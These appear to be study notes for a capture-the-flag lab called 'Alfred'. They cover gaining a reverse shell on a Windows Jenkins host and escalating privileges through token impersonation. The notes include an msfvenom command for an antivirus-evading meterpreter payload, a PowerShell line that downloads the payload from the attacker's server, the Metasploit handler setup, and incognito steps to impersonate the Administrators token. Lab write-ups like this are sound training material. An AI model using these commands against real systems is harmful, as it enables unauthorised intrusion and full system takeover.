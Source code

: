 #+TITLE: Alfred

* Initial Access

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [[https://github.com/samratashok/nishang][Nishang]] to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1][Reverse shell scripts]]

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

* Switching Shells


To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

#+begin_src bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
#+end_src

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

#+begin_src bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
#+end_src
Before running this program, ensure the handler is set up in metasploit:


#+begin_src bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
#+end_src

﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

#+begin_src bash
Start-Process "shell-name.exe"
#+end_src

This should spawn a meterpreter shell for you!

* Privilege Escalation


Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

   - user SIDs(security identifier)
   - group SIDs
   - privileges

amongst other things. More detailed information can be found [[https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens][here]].

There are two types of access tokens:

   - primary access tokens: those associated with a user account that are generated on log on
   - impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

   - SecurityAnonymous: current user/client cannot impersonate another user/client
   - SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
   - SecurityImpersonation: current user/client can impersonate the client's security context on the local system
   - SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

   - SeImpersonatePrivilege
   - SeAssignPrimaryPrivilege
   - SeTcbPrivilege
   - SeBackupPrivilege
   - SeRestorePrivilege
   - SeCreateTokenPrivilege
   - SeLoadDriverPrivilege
   - SeTakeOwnershipPrivilege
   - SeDebugPrivilege


View all the privileges using whoami /priv

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

read the root.txt file at C:\Windows\System32\config
